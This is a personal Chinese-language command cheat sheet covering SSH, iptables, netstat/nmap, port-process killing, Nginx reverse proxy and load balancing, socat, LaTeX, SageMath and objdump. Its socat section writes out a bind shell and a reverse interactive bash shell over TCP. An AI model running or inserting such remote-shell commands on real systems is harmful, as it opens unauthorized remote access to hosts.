

> 本篇在技术进步到 aigc 能力非常充分的现在，作为一个 Manual 的功能文档已经没有继续更新的必要，仅作为笔记留档一下。

## 通过 SSH 连接服务器

通过以下的命令通过 `ssh` 登陆服务器：

```bash
$ ssh -l <username> <ip>
```

## 服务器开放指定端口

1. 安装

   ```bash
   $ sudo apt-get install iptables
   ```

2. 添加规则。比如以下命令打开 8000 端口：

    ```bash
    $ iptables -A INPUT -p tcp --dport 8000 -j ACCEPT
    ```

    删除此条添加的规则则使用下面的命令：

    ```bash
    $ iptables -D INPUT -p tcp --dport 8000 -j ACCEPT
    ```

3. 保存规则

    ```bash
    $ iptables-save
    ```

4. 持续化规则。安装 `iptables-persistent` 支持：

    ```bash
    $ sudo apt-get install iptables-persistent
    ```

    使用进行持续化规则：

    ```bash
    $ sudo netfilter-persistent save
    $ sudo netfilter-persistent reload
    ```

5. 以下命令查看所有的规则：

    ```bash
    $ iptables -L
    ```

## 服务器查看端口

### 使用 `netstat` 查看端口占用情况

There's a few parameters to [`netstat`](http://manpages.ubuntu.com/netstat.8) that are useful for this :

- `-l` or `--listening` shows only the sockets currently listening for incoming connection.
- `-a` or `--all` shows all sockets currently in use.
- `-t` or `--tcp` shows the tcp sockets.
- `-u` or `--udp` shows the udp sockets.
- `-n` or `--numeric` shows the hosts and ports as numbers, instead of resolving in dns and looking in /etc/services.

- **`-plten`**：查看正在被激活的互联网连接。

### 使用 `nmap` 扫描对公网开放 ip

Nmap ("Network Mapper") is a free and open source utility for network exploration or security auditing：

```bash
$ nmap hosting-name
```

## 杀死占用一个端口的进程

这个命令会给出绑定在指定端口上的进程的 `PID`：

```bash
$ fuser 8080/tcp
```

加入 `-k` 选项后会杀死这个 `PID` 指向的进程：

```bash
$ fuser -k 8080/tcp
```

以下命令可以列出所有在监听这个端口的进程：

```bash
$ lsof -i:8080
```

要杀掉这个列举出的进程，可以使用以下的方式：

```shell
$ kill $(lsof -t -i:8080)
# 或者暴力杀死
$ kill -9 $(lsof -t -i:8080)
```

*PostScript*：查看所有进程 `PID` 并杀死：

```bash
$ ps -ef | grep socat
# 比如我们要查看一个 socat 进程

$ kill <PID>
```

## 关于反向代理 Ngingx

> 学习网址：https://www.jianshu.com/p/fd25a9c008a0

### 配置文件结构

`apt-get` 安装的 `Nginx` &rarr; 配置文件在目录 `/etc/nginx/`，该目录中有以下文件：

1. `nginx.conf`：这个是nginx的主配置文件，里面包含了当前目录的所有配置文件，只不过有的是注释状态，需要的时候自行开启（后面几个常用的）。
2. `conf.d/`：这是一个目录，里面可以写我们自己自定义的配置文件，文件结尾一定是 `.conf` 才可以生效（当然也可以通过修改 `nginx.conf` 来取消这个限制）
3. `sites-enabled/`：这里面的配置文件其实就是 `sites-available/` 里面的配置文件的软连接，但是由于 `nginx.conf` 默认包含的是这个文件夹，所以我们在 `sites-available/` 里面建立了新的站点之后,还要建立个软连接到 `sites-enabled/` 里面才行

4. `sites-available/`：这里是我们的虚拟主机的目录，我们在在这里面可以创建多个虚拟主机。

### 反向代理

可以用下图表示 Nginx 的工作原理：



### 负载均衡

Nginx 提供了多种负载均衡的分配方式：

1. 轮询（默认方式）：每个请求按时间顺序逐一分配到后端服务器，如果后端服务器down掉,能自动剔除。

2. `weight`：给后台服务器设置的轮询几率的权值，用于后台服务器性能不均的情况。比如：

   ```nginx
    upstream bakend {
        server 192.168.159.10 weight=10;
        server 192.168.159.11 weight=10;
    }
   ```

3. `down`：表示当前服务器不参与负载。

4. `max_fails`：允许请求失败的次数，默认为 1。

5. `backup`：其他所有非 backup 机器暂忙时，请求 backup 机器。这台机器的压力会最小。

6. `ip_hash`：每个请求按访问 ip 的 hash 结果分配，这样每个访客固定访问一个后端服务器，可以解决 `session` 的问题。比如：

   ```nginx
    upstream resinserver{
        ip_hash;
        server 192.168.159.10:8080;
        server 192.168.159.11:8080;
    }
   ```

7. `fair`：按后端服务器的响应时间来分配请求，响应时间短的优先分配。同上定义。

### Debug

> 总结来源：https://serverfault.com/questions/579919/nginx-1-2-1-how-to-analyse-500-internal-server-error

1. 查看 nginx 的配置文件是否正确：

   ```shell
   nginx -t
   ```

2. 查看 nginx 的运行状态：

   ```shell
   service nginx status
   ```

3. 查看配置文件中， log 文件中所在位置，查看日志：

   ```shell
   find /etc/nginx -name '*.conf' | xargs grep -i log
   ```

## 关于 socat

> 学习网址：
>
> - https://www.hi-linux.com/posts/61543.html
>
> 官网网址：
>
> - http://www.dest-unreach.org/socat/

`socat` 是一个 `netcat(nc)` 的替代产品，可以称得上 `nc++`。作用是在两个流之间建立一个双向的通道。

`socat` 的地址类型很多，有 `ip`, `tcp`, `udp`, `ipv6`, `pipe`, `exec`, `system`, `open`, `proxy`, `openssl`等。

### 基本语法

```bash
$ socat [options] <address> <address>
```

几个常用的 address 描述方式如下：

- `-`, STDIN, STDOUT 表示标准输入输出，可以就用一个横杠代替。
- `/var/log/syslog` 打开一个文件作为数据流，可以是任意路径。
- `TCP::` 建立一个 TCP 连接作为数据流，TCP 也可以替换为 UDP 。
- `TCP-LISTEN`: 建立 一个 TCP 监听端口，TCP 也可以替换为 UDP。
- `EXEC`: 执行一个程序作为数据流。

*PostScript*：以上规则中前面的 TCP 等都可以小写，在这些描述后可以附加一些选项，用逗号隔开。如 fork，reuseaddr，stdin，stdout，ctty 等。

### 示例

1. 例子一，文件读取，将文件内容连接到标准输入输出流：

   ```bash
   $ socat - /var/www/html/flag.php
   
   $ socat - ./flag.php
   # 路径一般是绝对路径，如果要使用相对路径记得要加上 ./
   
   $ echo "This is a test" | socat - /tmp/test.txt
   # 写入文件
   ```

2. 例子二，网络管理，连接远程端口与监听一个端口：

   ```bash
   $ socat - tcp:<ip_address>:<port>
   
   $ socat tcp-listen:8080 -
   ```

3. 例子三，端口转发，转发 `tcp`：

   ```bash
   $ socat  -d -d -lf /var/log/socat.log TCP4-LISTEN:15672,bind=192.168.1.252,reuseaddr,fork TCP4:172.17.0.15:15672
   # 监听 192.168.1.252 网卡的 15672 端口，并将请求转发至 172.17.0.15 的 15672 端口。
   # 
   # 参数说明：
   # -d -d：代表调试信息的输出级别。
   # -lf /var/log/socat.log：指定输出信息的文件保存位置。 
   # TCP4-LISTEN:15672 在本地建立一个 TCP IPv4 协议的监听端口，也就是转发端口。
   # bind 指定监听绑定的 IP 地址，不绑定的话将监听服务器上可用的全部 IP。
   # reuseaddr 绑定一个本地端口。
   # fork TCP4:172.17.0.15:15672 指的是要转发到的服务器 IP 和端口，这里是 172.17.0.15 的 15672 端口。
   ```

   `NAT` 映射：在外部公网服务器上执行：

   ```bash
   $ socat tcp-listen:1234 tcp-listen:3389
   ```

   在内网服务器上执行：

   ```bash
   $ socat tcp:outerhost:1234 tcp:192.168.1.34:3389
   ```

   这样，你外部机器上的 3389 就映射在内网 `192.168.1.34` 的 3389 端口上了。不过这样场景下更推荐内网穿透神器 FRP，如果你不会使用，可参考 [推荐一款很好用的内网穿透工具–FRP](https://mp.weixin.qq.com/s/8HeeDC5x5xozElN8GzQLLw) 一文。

4. 例子四，文件传递：将文件 `demo.tar.gz` 使用 2000 端口从 `192.168.1.252` 传到 `192.168.1.253`, 文件传输完毕后会自动退出。

   在 `192.168.1.252` 上执行：

   ```bash
   $ socat -u open:demo.tar.gz tcp-listen:2000,reuseaddr
   ```

   在 `192.168.1.253` 上执行：

   ```bash
   $ socat -u tcp:192.168.1.252:2000 open:demo.tar.gz,create
   ```

5. 例子五，建立 `shell` 。

   建立一个正向 `shell`。在服务器上执行：

   ```bash
   # 在服务端 7005 端口建立一个 Shell。
   $ socat TCP-LISTEN:7005,fork,reuseaddr EXEC:/bin/bash,pty,stderr
   # 或者
   $ socat TCP-LISTEN:7005,fork,reuseaddr system:bash,pty,stderr
   ```

   在客户端执行：

   ```bash
   # 连接到服务器的 7005 端口，即可获得一个 Shell。readline 是 GNU 的命令行编辑器，具有历史功能。
   $ socat readline tcp:127.0.0.1:7005
   ```

   反弹一个交互式的 `shell`。在服务器上执行：

   ```bash
   $ socat -,raw,echo=0 tcp-listen:7005
   ```

   在客户端上执行：

   ```bash
   $ socat tcp-connect:192.168.1.252:7005 exec:'bash -li',pty,stderr,setsid,sigint,sane
   ```

6. 例子六，让 `socat` 在后台运行。默认情况下 Socat 只在前台运行，如果要让 Socat 一直在后台运行，可以使用 nohup 命令来保证其在后台一直运行。

   ```bash
   $ nohup socat  -d -d -lf /var/log/socat.log TCP4-LISTEN:15672,bind=192.168.1.252,reuseaddr,fork TCP4:172.17.0.15:15672 &
   ```

## 关于 Latex

使用 latex 编译的命令（详细的帮助文档可以使用 `--help` 参数查看）：

```bash
$ latexmk --help
```

使用 MikTex 编译的命令（详细的帮助文档可以使用 `--help` 参数查看）：

```bash
$ telatex --help
```

Latex 安装包目录管理命令（详细的帮助文档可以使用 `--help` 参数查看）：

```bash
$ kpsewhich --help
```

手动安装到一个安装目录之后，需要使用以下命令更新 LaTex 的安装包搜索路径：

```bash
$ sudo mktexlsr
```

## 关于 sagemath

基于 python2 的数学教学工具 sage-math。Quick Manual:

1. 比特流转换为整数：

   ```python
   ZZ([1,1,0,1],base=2)
   ```

   这种方式与 `int('1101',2)` 转换的结果相反，它等价于 `int('1011', 2)`

2. 整数转化为比特流：

   ```python
   Integer(15).binary()
   ```

3. 在 sage 中，通过多项式建立一个有限域：

   ```python
   sage: FF = GF(2**8, name='x', modulus=x^8 + x^4 + x^3 + x + 1)
   ```

   在这个有限域中，整数与多项式相互转化：

   ```python
   # 整数转化为多项式
   sage: FF.fetch_int(5)
   x^2 + 1
   
   # 多项式转化为整数
   sage: FF(x^2 + 1).integer_representation()
   5
   ```

## 二进制文件分析相关

获取一个 `.o` 可执行文件的汇编代码：

```bash
$ objdump -S --disassemble main.o > main.asm
```
